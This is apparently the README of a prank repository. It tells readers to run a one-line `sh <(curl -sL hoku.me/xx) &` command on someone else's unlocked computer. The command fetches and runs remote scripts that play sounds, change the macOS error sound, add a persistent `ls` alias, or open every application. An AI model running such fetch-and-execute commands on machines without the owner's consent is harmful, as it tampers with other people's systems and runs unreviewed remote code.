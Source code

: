 ### :speak_no_evil: hoku :speak_no_evil:

when someone leaves their computer unlocked, you want to do something. this is a repo of silly things you can do. they all follow the same idea. you run

`sh <(curl -sL hoku.me/xx) &`

in their terminal, where `xx` is the two-letter identifier of the prank payload.

-----
`ah`: play an airhorn sound randomly every x seconds, where x is between 0 and 800
 
`al`: change the default mac error sound to an airhorn and start a sleeper as a diversion
 
`er`: play the default mac error sound randomly every x seconds, where x is between 0 and 30
 
`fr`: play Friday by Rebecca Black on friday
 
`ls`: change the default mac error sound to an airhorn and set up a bash alias for `ls` to change it back to an airhorn if it's not already
 
`op`: sleep for 10 minutes and then open every app in /Applications 

`ra`: open a random app in /Applications every 60 seconds

### contributing
if you have an idea for a prank, go ahead and put in a PR :)
